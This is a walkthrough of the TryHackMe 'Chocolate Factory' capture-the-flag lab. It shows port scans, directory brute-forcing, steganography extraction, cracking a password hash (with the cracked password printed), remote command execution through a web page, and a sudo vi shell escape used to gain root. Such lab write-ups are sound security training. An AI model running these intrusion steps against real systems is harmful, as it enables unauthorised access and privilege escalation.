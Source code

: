 ```yaml
---
title: Walkthrough - Chocolate Factory
published: True
---
```


Find hidden keys, python programs and use base in A Charlie And The Chocolate Factory themed room, revisit Willy Wonka's chocolate factory!

[https://tryhackme.com/room/chocolatefactory](https://tryhackme.com/room/chocolatefactory)

* * *

## Notes

- ``sudo nmap -Pn -sS -p- -T4 10.10.192.137 -vvv``
- ``sudo nmap -sV -sT -sC -p21,22,80``

```shell 
PORT    STATE SERVICE    REASON
21/tcp  open  ftp        syn-ack ttl 61
22/tcp  open  ssh        syn-ack ttl 61
80/tcp  open  http       syn-ack ttl 61
100/tcp open  newacct    syn-ack ttl 61
101/tcp open  hostname   syn-ack ttl 61
102/tcp open  iso-tsap   syn-ack ttl 61
103/tcp open  gppitnp    syn-ack ttl 61
104/tcp open  acr-nema   syn-ack ttl 61
105/tcp open  csnet-ns   syn-ack ttl 61
106/tcp open  pop3pw     syn-ack ttl 61
107/tcp open  rtelnet    syn-ack ttl 61
108/tcp open  snagas     syn-ack ttl 61
109/tcp open  pop2       syn-ack ttl 61
110/tcp open  pop3       syn-ack ttl 61
111/tcp open  rpcbind    syn-ack ttl 61
112/tcp open  mcidas     syn-ack ttl 61
113/tcp open  ident      syn-ack ttl 61
114/tcp open  audionews  syn-ack ttl 61
115/tcp open  sftp       syn-ack ttl 61
116/tcp open  ansanotify syn-ack ttl 61
117/tcp open  uucp-path  syn-ack ttl 61
118/tcp open  sqlserv    syn-ack ttl 61
119/tcp open  nntp       syn-ack ttl 61
120/tcp open  cfdptkt    syn-ack ttl 61
121/tcp open  erpc       syn-ack ttl 61
122/tcp open  smakynet   syn-ack ttl 61
123/tcp open  ntp        syn-ack ttl 61
124/tcp open  ansatrader syn-ack ttl 61
125/tcp open  locus-map  syn-ack ttl 61

21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.127.225
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-rw-r--    1 1000     1000       208838 Sep 30  2020 gum_room.jpg
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:31:bb:b5:1f:cc:cc:12:14:8f:f0:d8:33:b0:08:9b (RSA)
|   256 e7:1f:c9:db:3e:aa:44:b6:72:10:3c:ee:db:1d:33:90 (ECDSA)
|_  256 b4:45:02:b6:24:8e:a9:06:5f:6c:79:44:8a:06:55:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

- ``gobuster dir -u http://10.10.192.137/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt -t 100 --no-error``

- the ftp we find a picture of wrigleys gum
- using ``stegseek`` we can get a base64 encrypted textfile. we can use ``base64 -d`` on it and we see its a user:pass list with charlie. lets crack.
- ``john charlie.hash --wordlist=/usr/share/seclists/Passwords/rockyou.txt``

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Chocolate-Factory]
└─$ john charlie.hash --wordlist=/usr/share/seclists/Passwords/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cn7824           (charlie)     
1g 0:00:06:41 DONE (2022-07-29 04:42) 0.002489g/s 2451p/s 2451c/s 2451C/s cocker6..cn123
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

- we can login to the http server page with these creds and it brings us to a page where we can execute commands remotely
- and ``ls`` shows us the files we can wget over to our machine.
- checking ``key_rev_key`` looks like we need a name to open the file to get a key. But trying every name I cant find anything. 
- checking the home directory we can find a ssh key with no password we can use to ssh in with charlie.

* * * 

## Enter the key you found!

- Using ``strings`` we can find the name and the key.

* * * 

## What is Charlie's password?

- we found this already with stegseek

* * * 

## change user to charlie

- login to ssh with the non password protected rsa key

* * * 

## Enter the user flag

- ``cat user.txt``

* * * 

## Enter the root flag

```shell
User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi
```

- we can privesc with vim
- ``sudo vi -c ':!/bin/sh' /dev/null``
- ``python /root/rooy.py`` and enter the key we found with ``strings`` on ``key_rev_key``

![0xskar](/assets/chocolate-factory01.png)

* * * 

